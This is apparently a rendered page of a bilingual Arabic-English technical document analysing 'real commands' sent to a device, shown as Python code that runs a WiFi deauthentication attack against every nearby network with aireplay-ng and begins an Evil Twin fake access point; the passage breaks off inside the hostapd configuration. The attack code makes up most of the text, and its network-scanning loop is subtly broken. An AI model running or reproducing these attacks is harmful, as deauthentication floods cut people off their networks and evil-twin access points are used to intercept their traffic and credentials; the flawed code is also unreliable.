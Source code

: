 
## 4. تحليل الأوامر الفعلية
### 4. Analysis of Real Commands

### ✅ **أ. أوامر الهجوم على WiFi:**

#### 1. **هجوم Deauth:**
```python
# الأمر المرسل
command = "wifi_jamming"
parameters = {
    "attack_type": "deauth",
    "target_ssid": "all",
    "duration": 60,
    "interface": "wlan0"
}

# التنفيذ الفعلي على الجهاز
def execute_wifi_deauth(parameters):
    import subprocess
    import time
    
    target_ssid = parameters.get("target_ssid", "all")
    duration = parameters.get("duration", 60)
    interface = parameters.get("interface", "wlan0")
    
    # فحص الشبكات المتاحة
    scan_cmd = f"iwlist {interface} scan | grep ESSID"
    networks = subprocess.check_output(scan_cmd, shell=True).decode()
    
    # تنفيذ هجوم Deauth
    for network in networks:
        deauth_cmd = f"aireplay-ng --deauth 0 -a {network} {interface}"
        subprocess.Popen(deauth_cmd, shell=True)
    
    time.sleep(duration)
    return {"success": True, "networks_attacked": len(networks)}
```

#### 2. **هجوم Evil Twin:**
```python
# الأمر المرسل
command = "wifi_attack"
parameters = {
    "attack_type": "evil_twin",
    "target_ssid": "VictimNetwork",
    "fake_ssid": "VictimNetwork_Free",
    "duration": 300
}

# التنفيذ الفعلي على الجهاز
def execute_evil_twin(parameters):
    import subprocess
    import time
    
    target_ssid = parameters.get("target_ssid")
    fake_ssid = parameters.get("fake_ssid")
    duration = parameters.get("duration", 300)
    
    # إنشاء نقطة وصول مزيفة
    hostapd_config = f"""
interface=wlan1
driver=nl80211
```